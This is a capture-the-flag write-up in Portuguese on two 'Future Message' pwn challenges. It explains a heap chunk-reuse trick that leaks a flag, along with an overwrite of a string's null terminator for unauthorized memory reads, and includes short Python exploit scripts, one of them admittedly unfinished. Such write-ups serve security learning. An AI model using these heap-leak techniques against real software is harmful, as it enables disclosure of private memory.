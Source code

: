 Outro comportamento estranho é que o comando de enviar mensagem para o futuro lê um arquivo "flag.txt" e guarda o resultado na heap com um malloc de 48 bytes (e não faz nada com ele).

A solução vêm de unir esses dois comportamentos estranhos com a otimização da heap de sempre empilhar espaços vazios por tamanho.

Inicialmente deve-se escrever e apagar logo em seguida uma mensagem de tamanho 48, pois com isso aquele endereço vazio tem máxima prioridade na heap para outro malloc de 48 bytes. Daí usa-se o comando de enviar mensagem para o futuro, que guarda a flag com um malloc recebendo o mesmo endereço liberado pela mensagem.

Por fim usa-se o comando de imprimir todas as mensagens, que imprime o endereço com a flag.

``` python
from time import sleep

#cria mensagem do tamanho da flag
print("1\nme\n48\naaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
#apaga a mensagem criada
print("3\n0")
#pausa para a heap se organizar?
sleep(0.1)
#escreve a flag na memoria
print("5")
#imprime e sai
print("4\n6")
```

### Future Message 2 
```
Looks like that the sending message to the future service is evolving! We need your help to keep up with its evolution!

Server: futuremessage-pwn2win.southcentralus.cloudapp.azure.com 1338
```

Uma observação inicial do programa mostra que o bug de imprimir lixo de mensagens deletadas foi corrigido. O que parece mais suspeito é o comando de modificar mensagem porque ele pergunta para o usuário o tamanho da mensagem e colocar tamanho incorreto tem comportamento estranho.

Colocando um tamanho menor do que o da mensagem original, ele continua imprimindo o resto não apagado da mensagem anterior e colocando um maior o programa quebra (sinal de não dar realloc/outro malloc).

Usando a ferramenta de modificar string é possível sobrescrever o '\0' do final da mensagem, permitindo leitura de memória não autorizada.

https://rstforums.com/forum/topic/111449-heap-overflow-exploitation-on-windows-10-explained/

Encontrei esse artigo explicando sobre como exploitar a heap do Windows 10. Eu montei esse código como tentativa, mas ele não consegue vazar a flag. O mais estranho é que para valores de OVERFLOW maiores do que 10 ele para de funcionar.

```python
#A flag aparece perto de um malloc de 64

from time import sleep

#cria uma mensagem de tamanho size com o '\0' removido para vazar memoria
def invalid_message(size):
    cria_chunk(size)
    print("2\n" + str(i_message-1) + "\n" + str(size+OVERFLOW)+ "\n" + (size+OVERFLOW)*'b')

def cria_chunk(size):
    #aqui usa-se size-1 porque size conta com o '\0'
    print("1\nme\n"+ str(size) +"\n" + (size-1)*'a')
    global i_message
    i_message+=1
    #sleep(SLEEP)
```